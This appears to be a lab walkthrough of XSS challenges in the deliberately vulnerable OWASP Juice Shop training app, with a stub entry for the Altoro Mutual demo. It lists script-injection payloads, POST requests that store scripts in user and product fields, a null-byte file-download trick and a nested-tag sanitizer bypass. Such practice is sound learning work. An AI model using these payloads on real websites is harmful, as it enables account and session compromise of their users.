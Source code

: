 # XSS
## Juice Shop

### Perform a reflected XSS attack with <script>alert("XSS")</script>.
* Search
* Track Orders
### Perform a DOM XSS attack with <script>alert("XSS")</script>.	

#### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a client-side security mechanism.
* Submit a POST request to http://localhost:3000/api/Users with
* Content-Type: application/json

* Post Params
  * {"email": "<script>alert(\"XSS\")</script>", "password": "anything"}
  
#### Perform a persisted XSS attack with <script>alert("XSS")</script> without using the frontend application at all.	

* Be authenticated
* Copy your Authorization header from an HTTP request submitted via browser.
* Submit a POST request to http://localhost:3000/api/Products with
* {"name": "XSS Juice", "description": "<script>alert(\"XSS\")</script>", "price": 23.99} as body,
* Content-Type: application/json
* Bearer ? as Authorization header, replacing the ? with the token you copied from the browser.

#### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a server-side security mechanism.
* Download http://localhost:3000/ftp/package.json.bak%2500.md
* change to package.json
* run dependency-check against the package.json
* sanitize:1.4.2 has a xss vuln. https://github.com/punkave/sanitize-html/issues/29
* Visit http://localhost:3000/#/contact.
* Enter <<script>XSS</script>script>alert("XSS")<</script>/script> as Comment
* Choose a rating and click Submit
* Visit http://localhost:3000/#/about for a first "XSS" alert (from the Customer Feedback slideshow)



## Altoro Mutual
#### Reflective XSS
* Search 
